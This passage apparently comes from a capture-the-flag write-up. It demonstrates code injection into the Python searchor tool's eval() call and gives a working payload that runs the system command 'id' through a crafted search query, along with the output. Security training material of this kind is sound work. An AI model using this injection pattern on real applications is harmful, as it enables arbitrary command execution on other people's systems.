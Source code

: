 #### Local POC

I’m trying to inject into this code, where I control `engine` and `query`:

```

url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)

```

If I target `engine`, it’s likely to error out, and I won’t get a result back, so I’ll focus on `query`. If I give it a single quote, it crashes:

```

(venv) oxdf@hacky$ searchor search GitHub 0xdf
https://www.github.com/search?q=0xdf
(venv) oxdf@hacky$ searchor search GitHub "0xdf'"
Traceback (most recent call last):
  File "/tmp/venv/bin/searchor", line 8, in <module>
    sys.exit(cli())
             ^^^^^
...[snip]...
  File "/tmp/venv/lib/python3.11/site-packages/searchor/main.py", line 32, in search
    url = eval(
          ^^^^^
  File "<string>", line 1
    Engine.GitHub.search('0xdf'', copy_url=False, open_web=False)
                               ^
SyntaxError: unterminated string literal (detected at line 1)

```

I need to make that syntax correct. A bit of trial and error gets me to something like:

```

' + __import__('os').popen('id').read() + '

```

If I submit that as the `search`, that the code will look like:

```

f"Engine.GitHub.search('' + __import__('os').popen('id').read() + '', copy_url={copy}, open_web={open})"

```

It works:

```

(venv) oxdf@hacky$ searchor search GitHub "' + __import__('os').popen('id').read() + '"
https://www.github.com/search?q=uid%3D1000%28oxdf%29%20gid%3D1000%28oxdf%29%20groups%3D1000%28oxdf%29%2C115%28netdev%29%2C123%28nopasswdlogin%29%2C999%28vboxsf%29%0A

```

